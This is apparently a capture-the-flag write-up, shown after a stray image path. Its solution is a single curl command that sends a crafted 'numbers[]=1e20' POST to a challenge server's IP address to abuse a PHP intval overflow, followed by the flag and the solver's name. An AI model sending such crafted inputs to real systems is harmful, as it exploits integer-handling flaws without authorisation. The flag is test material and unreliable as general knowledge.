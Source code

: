 # Solution
```
curl -X POST http://52.59.124.14:5004/ -d "numbers[]=1e20&numbers[]=1"
```

Flag: `ENO{INTVAL_IS_NOT_ALW4S_P0S1TiV3!}`


Solved by: n3r
